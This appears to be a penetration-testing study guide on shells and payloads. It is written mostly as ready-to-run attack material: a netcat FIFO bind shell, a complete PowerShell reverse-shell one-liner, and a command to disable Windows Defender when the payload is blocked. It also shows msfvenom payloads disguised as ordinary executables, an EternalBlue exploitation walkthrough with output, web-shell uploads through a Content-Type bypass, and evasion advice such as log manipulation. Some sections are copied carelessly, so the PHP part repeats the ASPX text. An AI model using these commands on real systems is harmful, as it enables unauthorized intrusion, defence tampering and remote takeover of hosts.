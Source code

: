 # 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>

</details>

<details>
<summary><h1>📦 Payloads</h1></summary>
<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
msf6 > search smb
```

Selecting an Exploit  

```bash
msf6 > use 56
```

Examining an Exploit's Options  

```bash
msf6 > options
```

Setting Options  

```bash
msf6 > set RHOSTS <TARGET IP>
msf6 > set SMBUser <USER>
msf6 > set SMBPass <PASSWORD>
msf6 > set LHOST <ATTACKER IP>
msf6 > set LPORT <ATTACKER PORT>
msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
msf6 > run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 

```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>


<details>
<summary><h1>🪟 Windows Shells</h1></summary>  
<details>
<summary><h3>Infiltrating Windows</h3></summary>  
<details>
<summary><h4>Enumerating Windows & Fingerprinting Methods</h4></summary>  

When performing ICMP-based host discovery, Windows systems typically respond with one of these ICMP reply codes:

* Code 128: Standard response (most common)

* Code 32: Alternate response variant

These reply codes serve as reliable indicators of an active Windows host when conducting ping sweeps or network reconnaissance.  

**Attack Machine:** Ping target
```bash
ping <TARGET IP> (<TARGET IP>): 56 data bytes
64 bytes from <TARGET IP>: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from <TARGET IP>: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from <TARGET IP>: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from <TARGET IP>: icmp_seq=3 ttl=128 time=11.265 ms
```

**Attack Machine:** Initialize an OS Identification scan against our target  

```bash
sudo nmap -v -O <TARGET IP>
```

**Attack Machine:** For each port Nmap sees as up, it will attempt to connect to the port and glean any information it can from it.  

```bash
sudo nmap -v <TARGET IP> --script banner.nse
```

> The examples shown above are just a few ways to help fingerprint and determine if a host is a Windows machine. It is by no means an exhaustive list, and there are many other checks you can do.

</details>

<details>
<summary><h4>Payload Types to Consider</h4></summary>

**DLLs:** Dynamic Link Libraries (DLLs) are shared resource files in Microsoft Windows that allow multiple programs to access common code and data simultaneously. Attackers can exploit these files by either injecting a malicious DLL or hijacking a vulnerable system library, enabling privilege escalation to SYSTEM level or bypassing User Account Control (UAC) security measures.

**Batch:** Text-based DOS scripts used by system administrators to automate multiple tasks through the command-line interpreter (CLI).

**VBS:** A lightweight scripting language derived from Microsoft’s Visual Basic. While historically used for client-side web scripting to enable dynamic content, modern browsers have largely deprecated VBS due to security concerns.

Primarily observed in:

* Phishing campaigns (e.g., malicious macros in Office documents)

* Social engineering attacks (e.g., tricking users to enable script execution)

* Legacy system maintenance (rare edge cases)

> **Security Note:** Execution typically requires explicit user interaction (e.g., enabling macros, clicking embedded objects).

**MSI:** MSI files contain installation instructions and components for Windows applications. Attackers can exploit this system by:

1. Creating malicious MSI packages containing payloads

2. Delivering them to target systems

3. Executing them via the Windows Installer service (msiexec.exe)

This technique can provide:

* Elevated privileges (often SYSTEM-level access)

* Persistent reverse shells

* Bypass of some security controls

**Powershell:** PowerShell serves as both an interactive shell and powerful scripting language, offering extensive capabilities for offensive security operations:

Key Advantages:

* Native Windows integration (no additional dependencies)

* Deep system access (Windows Management Instrumentation, .NET integration)

* Flexible in-memory execution (evades disk-based detection)

</details>

<details>
<summary><h4>Procedures for Payload Generation, Transfer, and Execution</h4></summary>

* [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework): MSF stands as an indispensable tool for penetration testers, offering exceptional versatility across all stages of security assessments. This comprehensive platform enables professionals to conduct host enumeration, craft customized payloads, deploy both public and private exploits, and execute sophisticated post-exploitation activities.

* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings): Here, you can find many different resources and cheat sheets for payload generation and general methodology.

* [Mythic C2 Framework](https://github.com/its-a-feature/Mythic): Alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.

* [Nishang](https://github.com/samratashok/nishang): Framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

* [Darkarmour](https://github.com/bats3c/darkarmour): Tool to generate and utilize obfuscated binaries for use against Windows hosts.

</details>
</details>

<details>
<summary><h3>Example Compromise Walkthrough</h3></summary>

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -n -Pn -sS -T4 -sV -sC -A -O --min-rate 5000 <TARGET IP> -oX nmap_target_xml_scan.xml
xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine if the targert is vulnerable** 

```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010 
msf6 > show options
msf6 > set RHOSTS <TARGET IP>
msf6 > run
```

Expected output  

```bash
# [msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_ms17_010) >> run

# [+] <TARGET IP>:445       - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
# [*] <TARGET IP>:445       - Scanned 1 of 1 hosts (100% complete)
# [*] Auxiliary module execution completed
```

The vulnerability assessment indicates a high probability of an EternalBlue exploit working against our target. We'll proceed with configuring the exploit module and payload before initiating the attack.

**Attack Machine: Choose & Configure Our Exploit & Payload**

```bash
msf6 > search eternal
msf6 > use exploit/windows/smb/ms17_010_psexec
msf6 > options
msf6 > set LHOST <ATTACKER IP>
msf6 > set RHOSTS <TARGET IP>
```

Based on prior success rates with the PsExec variant, we'll prioritize this exploit method for initial execution. For this engagement, we've selected a standard Windows Meterpreter reverse TCP payload to maintain operational simplicity.

**Attack Machine: Execute Our Attack**  

```bash
msf6 > run
```

Expected output  

```bash
# [msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> run

# [*] Started reverse TCP handler on <ATTACKER IP>:4444 
# [*] <TARGET IP>:445 - Target OS: Windows Server 2016 Standard 14393
# [*] <TARGET IP>:445 - Built a write-what-where primitive...
# [+] <TARGET IP>:445 - Overwrite complete... SYSTEM session obtained!
# [*] <TARGET IP>:445 - Selecting PowerShell target
# [*] <TARGET IP>:445 - Executing the payload...
# [+] <TARGET IP>:445 - Service start timed out, OK if running a command or non-service executable...
# [*] Sending stage (175174 bytes) to <TARGET IP>
# [*] Meterpreter session 1 opened (<ATTACKER IP>:4444 -> <TARGET IP>:49672) at 2025-06-24 13:13:34 -0400

# (Meterpreter 1)(C:\Windows\system32) > 
```

With an active Meterpreter session established (indicated by the meterpreter > prompt), we now have multiple interaction options.

**Attack Machine: Verify Our Session**  

```bash
getuid
```

Expected output  

```bash
# Server username: NT AUTHORITY\SYSTEM
```

From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.


**Attack Machine: Identify Our Shell**  
```bash
shell
```

Expected output  

```bash
# Process 4844 created.
# Channel 1 created.
# Microsoft Windows [Version 10.0.14393]
# (c) 2016 Microsoft Corporation. All rights reserved.

# C:\Windows\system32>
```

When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.

</details>

<details>
<summary><h3>CMD or PowerShell</h3></summary>

<details>
<summary><h4>Differences</h4></summary>

# CMD vs PowerShell Comparison

| Feature          | CMD                              | PowerShell                      |
|------------------|----------------------------------|---------------------------------|
| **Origin**       | Original MS-DOS shell            | Designed to expand CMD's capabilities |
| **Command Language** | Native MS-DOS commands (`dir`, `ipconfig`) | Supports both MS-DOS and **.NET cmdlets** (`Get-ChildItem`, `Copy-Item`) |
| **Input/Output** | Text-based                       | **.NET objects** (structured data) |
| **Scripting**    | Basic batch files (`.bat`, `.cmd`) | Advanced scripts (`.ps1`) with loops, modules, and functions |
| **Command History** | **No** session logging | Keeps history of executed commands |
| **Security**     | No Execution Policy restrictions | Restricted by **Execution Policy** (e.g., `Restricted`, `RemoteSigned`) and UAC |
| **Availability** | Works on **all Windows versions** | Only available on **Windows 7+** |
| **Extensibility** | Limited to built-in commands | Supports **custom modules** and cmdlets |


</details>

<details>
<summary><h4>Which one is the right one to use?</h4></summary>

**Use CMD when:**

* You are on an older host that may not include PowerShell.

* When you only require simple interactions/access to the host.

* When you plan to use simple batch files, net commands, or MS-DOS native tools.

* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

**Use PowerShell when:**

* You are planning to utilize cmdlets or other custom-built scripts.

* When you wish to interact with .NET objects instead of text output.

* When being stealthy is of lesser concern.

* If you are planning to interact with cloud-based services and hosts.

* If your scripts set and use Aliases.

</details>

</details>
</details>

<details>
<summary><h1>🐧 Linux/UNIX Shells</h1></summary>  
<details>
<summary><h2>Infiltrating Linux/UNIX</h2></summary>  

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <TARGET IP> --script banner.nse -oX nmap_target_xml_scan.xml

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
msf6 > search rconfig
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

**Attack Machine: Configure Exploit Options**  

```bash
msf6 > options
msf6 > set RHOSTS <TARGET IP>
msf6 > set LHOST <ATTACKER IP>
```

**Attack Machine: Execute the Exploit**  
```bash
msf6 > exploit
```

**Attack Machine: Interact With the Shell**  
```bash
shell
```

**Attack Machine: Interact With the Shell**  
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

</details>

<details>
<summary><h2>Spawning Interactive Shells</h2></summary>  

<details>
<summary><h3>Spawn a shell</h3></summary>  

When encountering systems with restricted shell access and no Python interpreter, we should be prepared with alternative methods to escalate to an interactive shell. Several reliable techniques exist for this common post-exploitation scenario:

**/bin/sh**

This command will execute the shell interpreter specified in the path in interactive mode (-i).

```bash
/bin/sh -i
# sh: no job control in this shell
```

**Perl**

If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl: exec "/bin/sh";\
# This command should be run from a script.
```

**Ruby**

When Ruby is available on a target system, the following command can execute a system shell:

```bash
ruby: exec "/bin/sh"
# This command should be run from a script.
```

**Lua**

When Lua is available on a target system, the os.execute() function can be leveraged to spawn system shells. The most reliable approach uses absolute paths to avoid dependency on environment variables:

```bash
lua: os.execute('/bin/sh')
# This command should be run from a script.
```

**AWK**

AWK is a powerful pattern scanning and processing language with C-like syntax, commonly available on UNIX/Linux systems. AWK also provides functionality that can be leveraged to establish interactive shell sessions in security contexts.

```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

Find is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria.

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Exec**

The find command's -exec parameter can directly invoke a shell interpreter, but this method is contingent on locating the specified file - if the search fails, no shell session will be established.

```bash
find . -exec /bin/sh \; -quit
```

**VIM**

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor VIM. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

Vim To Shell  

```bash
vim -c ':!/bin/sh'
```

Vim Escape  
```bash
vim
:set shell=/bin/sh
:shell
```

</details>

<details>
<summary><h4>Execution Permissions</h4></summary>  

Permissions
```bash
ls -la <PATH>
```

Sudo
```bash
sudo -l
```

> Not only will considering permissions allow us to see what commands we can execute, but it may also start to give us an idea of potential vectors that will allow us to escalate privileges.

</details>

</details>

</details>

<details>
<summary><h1>🌐 Web Shells</h1></summary>  

A web shell provides browser-based command execution on a web server's underlying operating system, frequently serving as the initial persistence mechanism in web application attacks. This foothold often enables subsequent upgrades to fully interactive reverse shells.

In external penetration testing engagements, the most prevalent initial access vectors include:

* Web application vulnerabilities (file upload flaws, SQL injection, RFI/LFI, command injection)

* Credential-based attacks against exposed services (RDS, VPN portals, Citrix, OWA) leveraging Active Directory authentication

* Social engineering campaigns

Web applications typically constitute the largest exposed attack surface during external assessments. Common findings include unsecured file upload functionality accepting malicious PHP, JSP, or ASP.NET web shells.

<details>
<summary><h2>Laudanum</h2></summary>  

Laudanum is a curated collection of pre-built injection files designed for web application penetration testing. This repository provides security professionals with:

**Key Capabilities:**

* Immediate reverse shell establishment

* Browser-based command execution on compromised hosts

* Cross-language support (ASP, ASPX, JSP, PHP, etc.)

**Operational Value:**

* Rapid deployment during security assessments

* Multiple language support for diverse web environments

* Pre-tested payloads reducing setup time

<details>
<summary><h3>Installation</h3></summary>  

**Clone the repository**  

```bash
sudo git clone https://github.com/jbarcia/Web-Shells.git /usr/share/laudanum
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

The Laudanum toolkit is typically pre-installed at the following location:

```bash
/usr/share/laudanum
```

For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run.

**Move a Copy for Modification**
```bash
cp /usr/share/laudanum/aspx/shell.aspx ./shell.aspx
```

**Modify the Shell for Use**

Add your IP address to the allowedIps variable

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the Laudanum shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Antak Webshell</h2></summary>  

Antak is an ASP.NET web shell included in the Nishang framework, an offensive PowerShell toolkit designed for penetration testing across all engagement phases.

**Key Features:**

* PowerShell Integration: Executes commands directly via PowerShell, ideal for Windows server exploitation

* User Interface: PowerShell-themed UI for seamless interaction

* Operational Flexibility: Supports post-exploitation activities within compromised environments

**Advantages in Engagements:**

* Native compatibility with Windows environments

* Leverages PowerShell’s extensive system access

* Maintains low visibility when properly configured

<details>
<summary><h3>Installation</h3></summary>  

The Antak script can be found at the following location:

```bash
/usr/share/nishang/Antak-WebShell
```

Or in this [file](../scripts/shells/antak.aspx) included in this repository.

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/samratashok/nishang.git /usr/share/nishang/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Move a Copy for Modification**
```bash
cp /usr/share/nishang/Antak-WebShell/antak.aspx ./shell.aspx
```

**Modify the Shell for Use**

Always configure authentication credentials for your web shell to prevent unauthorized access.

> **Note:** It can be prudent to remove the ASCII art and comments from the file. These items in a payload are often signatured on and can alert the defenders/AV to what you are doing.

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

During file upload exploitation, you may encounter various security measures:

* Randomized filenames

* Non-public upload directories

* Other application-specific protections

Current Engagement Specifics:  

The uploaded web shell (shell.aspx) is accessible at:

```bash
URL\files\shell.aspx
```

> **Note:** This path requires Windows-style backslashes (\) rather than standard forward slashes (/).

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>PHP Web Shells</h2></summary>  

We will be using [WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master). We can download this or copy and paste the source code into a .php file.

<details>
<summary><h3>Installation</h3></summary>  

The script can be found [here](../scripts/shells/webshell.php) or cloning WhiteWinterWolf's [repository](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master).

**Clone the complete nishang repository**  

```bash
sudo git clone https://github.com/WhiteWinterWolf/wwwolf-php-webshell.git /usr/share/wwwolf-php-webshell/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Proxy Settings**

To intercept web traffic through Burp Suite:

1. Launch Burp Suite

    * Ensure the proxy listener is active (default: 127.0.0.1:8080)

2. Configure Browser Proxy Settings

    * Navigate to your browser's network/proxy configuration

    * Enter the following values:

    ```bash
    IP Address/Host: 127.0.0.1  
    Port: 8080
    ```

    * Disable any SSL/TLS verification warnings (for testing environments only)

3. Verification

    * Visit any HTTP page to confirm traffic appears in Burp's Proxy → Intercept tab

> **Note:** Our goal is to change the content-type to bypass the file type restriction in uploading files to be "presented" as something else so we can navigate to that file and have our web shell.

**Bypassing the File Type Restriction**  

To circumvent file type restrictions, we'll manipulate the Content-Type header:

1. Header Modification

    * Change Content-Type: application/x-php → Content-Type: image/gif

    * This exploits potential server-side validation flaws

2. Execution

    * After modification, select Forward in Burp Suite

    * The server may now accept the .php file due to mismatched MIME verification

3. Considerations

    * Effectiveness depends on server validation methods

    * Works against filters checking only Content-Type (not file signatures)

    * Often combined with filename obfuscation (e.g., shell.php.gif)

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

During file upload exploitation, you may encounter various security measures:

* Randomized filenames

* Non-public upload directories

* Other application-specific protections

Current Engagement Specifics:  

The uploaded web shell (shell.aspx) is accessible at:

```bash
URL\files\shell.aspx
```

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Considerations when Dealing with Web Shells
</h2></summary>  

When employing web shells during engagements, testers should account for the following challenges:

1. Persistence Limitations

    * Automated file cleanup processes may remove deployed shells after a set duration

2. Functional Constraints

    * Restricted OS interaction (e.g., limited file system navigation)

    * Command chaining failures (e.g., whoami && hostname may not execute properly)

    * Reduced stability in non-interactive environments

3. Forensic Footprint

    * Higher likelihood of leaving detectable artifacts (logs, files, etc.)

**Engagement-Specific Tradecraft**  

For black box or evasive assessments:

* Prioritize stealth techniques to avoid detection

* Mirror realistic adversary tradecraft, including:

    * Log manipulation

    * Timed execution to blend with normal traffic

    * Use of encrypted or obfuscated channels

* Balance operational security with testing objectives to properly evaluate the client's detection capabilities

</details>

</details>

---

📘 **Next step:** Continue with [METASPLOIT FRAMEWORK](./06-metasploit-framework.md)
